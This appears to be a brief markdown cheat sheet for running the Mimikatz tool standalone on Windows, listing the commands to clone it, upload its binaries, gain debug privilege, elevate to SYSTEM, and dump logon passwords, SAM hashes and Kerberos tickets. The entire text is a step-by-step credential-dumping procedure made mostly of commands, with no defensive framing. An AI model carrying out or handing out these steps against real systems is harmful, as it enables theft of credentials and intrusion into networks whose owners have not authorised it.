 ### stand alone version
download
```
git clone https://github.com/ParrotSec/mimikatz.git
```

upload mimikatz files in x64 folder
```
mimikatz.exe, mimilib.dll, mimidrv.sys
```

execute
```
.\mimikatz.exe
```

Enabling SeDebugPrivilege
```
privilege::debug
```

elevating to SYSTEM user privileges
```
token::elevate
```

logonpasswords
```
sekurlsa::logonpasswords
```

dump sam
```
lsadump::sam
```

tickets dump
```
sekurlsa::tickets
```
